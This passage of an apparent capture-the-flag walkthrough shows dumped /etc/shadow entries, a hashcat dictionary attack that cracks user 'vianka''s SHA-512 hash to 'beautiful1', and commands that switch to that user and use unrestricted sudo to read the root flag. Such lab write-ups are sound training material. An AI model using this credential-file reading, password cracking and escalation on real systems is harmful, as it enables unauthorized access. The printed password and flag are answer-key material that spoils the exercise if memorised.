 ```
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
It's better ^^.Now, we can use **hashcat** tocrack the password
```
sudo hashcat -a 0 -m 1800 '$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0'  [Path]rockyou.txt
```
```
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 3 secs

$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:beautiful1
```
**Answer** 
#### beautiful1
---
### Privilege escalation

**Question**
#### Escalate privileges and obtain root.txt

Let's check the command available now: 
```
www-data@ubuntu:/etc$ su - vianka
su - vianka
Password: beautiful1

vianka@ubuntu:~$ sudo -l
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```
**Vianka** can run everything ^^
```
vianka@ubuntu:~$ sudo -s
sudo -s
root@ubuntu:~# cd /root
cd /root
root@ubuntu:/root# ls -l
ls -l
total 4
-rw-r--r-- 1 root root 25 Sep  2  2020 root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
thm{xxd_pr1v_escalat1on}
```